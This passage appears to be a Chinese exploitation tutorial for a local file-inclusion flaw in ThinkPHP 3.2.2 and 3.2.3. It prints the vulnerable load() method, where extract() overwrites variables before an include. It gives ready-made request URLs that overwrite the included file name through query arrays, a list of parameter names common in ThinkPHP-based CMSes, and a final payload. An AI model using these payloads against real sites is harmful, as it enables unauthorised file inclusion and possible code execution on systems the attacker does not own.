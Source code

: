 ```
http://x.x.x.x/index.php?m=Home&c=Index&a=index&value[filename]=.\
```

> 2.ThinkPHP_3.2.2和ThinkPHP_3.2.3

**代码位置：\ThinkPHP\Library\Think\Storage\Driver\File.class.php**

```
/**     * 加载文件     * @access public     * @param string $filename  文件名     * @param array $vars  传入变量     * @return void             */    public function load($_filename,$vars=null){        if(!is_null($vars))            extract($vars, EXTR_OVERWRITE);        include $_filename;    }
```

```
http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=.\
```

> 3.限定条件下参数的收集

很多利用Thinkphp二开的cms，value的值不确定，以下列出常见的：

```
paramnamevaluearrayarrinfolistpagemenusvardatamoudlemodule
```

最终payload例如：

```
http://127.0.0.1/index.php?m=Home&c=Index&a=index&info[_filename]=.\
```